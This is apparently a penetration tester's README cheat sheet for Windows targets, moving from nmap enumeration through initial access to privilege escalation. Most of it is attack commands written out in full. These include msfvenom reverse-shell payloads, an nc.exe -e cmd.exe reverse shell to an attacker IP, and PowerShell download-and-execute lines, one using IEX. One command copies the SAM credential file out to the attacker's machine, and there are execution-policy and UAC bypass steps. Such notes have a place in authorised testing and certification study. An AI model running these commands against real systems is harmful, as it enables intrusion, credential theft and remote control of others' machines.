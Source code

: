 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: `mkdir nmap && cd nmap`
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result`   AND  `rustscan -a $IP . 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual enumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabilties on specific ports `nmap -p 80,445,139 --script=*vuln* $IP` , if not results show `nmap -Pn -sC -sV -p 22,2222 --script=*vuln* IP`
## Check vulnerabilities and enumerate for each port
0. Go to the differnet MD files in the repository.

## Creating a reverseshell, uploading a revershell  / creating a stageless payload to gain initial Access
0. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1237 -f exe  -o reverse.exe` 
1. `msfvenom -p windows/shell_reverse_tcp LHOST=myIP LPORT=1234 -f asp -o reverse.asp` 
2. ` https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php`
## File Transfer to Window 

### File transfer via web server
0. `python3 -m http.server 8080` from linux
1. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://myIP:80/winpeas.exe', 'winpeas.exe')` from window
2. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.55/PowerUp.ps1', 'PowerUp.ps1') -exec bypass`
3. `certutil.exe -urlcache -f -split http://$IP:80/winpeas.exe ` from window
### File Transfer via SMB
0. `mkdir share` and move files to transfer
1. `impacket-smbserver smb share/ ` from linux
2. `net use \\myIP\smb` from window
3. `copy \\myIP\smb\winpeas.exe   \windows\temp\winpeas.exe` 
4. `copy c:\Windows\Repair\SAM \\MYIP\tools\` copy content to my kali
5. in a webshell windows, `\\192.168.119.159\share\nc.exe -e cmd.exe 192.168.119.159 123`

 # Privilege Escalation for Window
 reference: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
 0. `whoami` `systeminfo` `whoami /priv` `whoami /groups` Conduct basic enumeration, and look for interesting files in the directory\ 
 1. `systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"` basic system Info
 2. Transfer the file to Window to TMP directory using any of the above methods.
 3. Use PowerUp. `powershell -ep bypass`
 4. `Import-Module .\PowerUp.ps1` or `. .\PowerUp.ps1`
 5. `Invoke-AllChecks`
 6. or `powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://myIP:80/PowerUp.ps1');Invoke-AllChecks"`
 7. Use WinPeas
 8. `winpeas.exe`
 9. Use SharUp if you cant run winpeas or powerup 
 10. `.\SharpUp.exe`
 ## UAC Bypass
 1. `powershell.exe Start-Process cmd.exe -Verb runAs` run cmd as high integrity,(this is the case when we have admin access to folder but cant execute admin, run as admin )